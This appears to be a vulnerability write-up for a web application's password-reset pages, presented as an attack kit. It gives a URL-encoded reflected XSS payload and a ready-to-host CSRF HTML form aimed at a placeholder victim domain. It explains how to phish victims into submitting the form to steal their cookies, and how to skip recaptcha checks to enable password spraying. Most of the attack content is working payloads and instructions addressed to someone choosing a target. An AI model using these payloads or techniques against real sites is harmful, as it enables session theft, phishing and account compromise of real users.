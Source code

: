 I was unable to view the version of this application. However, here is a list of vulnerabilities for the application:

## Reflected XSS

I found 2 XSS Vulnerabilites on the following URLs:

```
PasswordReset/ChangePass/ChangeThePass
PasswordReset/Reset/Authenticate
```

You may use the following payload as a POST request to the URL to reflect the contents of recaptcha-response. Please change the domain name to the domain you are targetting.

```
command=Next&Username=%24dc1&DomainName=xxxx.xxxx&ReCaptchaPublicKey=6LxOW5_v5AH39Tex8cBG4b57&g-recaptcha-response=%3c%73%76%67%20%6f%6e%6c%6f%61%64%3d%61%6c%65%72%74%28%31%29%3e&HomeUrl=%2FPasswordReset&X-Requested-With=XMLHttpRequest
```

### Weaponization

To abuse these POST Request Reflected XSS, you may pair it with a CSRF attack.

Create a page on your domain that you control with the following contents:
- Note: Change the form action URL to the target, and DomainName variable.

```js
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://victim.com/PasswordReset/Reset/Authenticate" method="POST">
      <input type="hidden" name="command" value="Next" />
      <input type="hidden" name="Username" value="&#36;dc1" />
      <input type="hidden" name="DomainName" value="ad&#46;&#46;" />
      <input type="hidden" name="ReCaptchaPublicKey" value="6LcgSVkaAAdOW5&#95;v5A19Tgfx68cB5b57" />
      <input type="hidden" name="g&#45;recaptcha&#45;response" value="<PAYLOAD>" />
      <input type="hidden" name="HomeUrl" value="&#47;PasswordReset" />
      <input type="hidden" name="X&#45;Requested&#45;With" value="XMLHttpRequest" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Anything in the recaptcha response get's reflected. So you will send a phishing link to your victim to your website which will redirect the post request to the website, thus grabbing it's cookies.

I will leave it up to your imagination to do what you'd like with your payload. :)

## Recaptcha Bypass

Create a Login request, capture it in Burpsuite. Change the password or username in the post request and re-send it. Additionally, you may change the re-captcha response to whatever you'd like, meaning the server doesn't actually check it. This is great for password spraying for once you've done username enumeration.

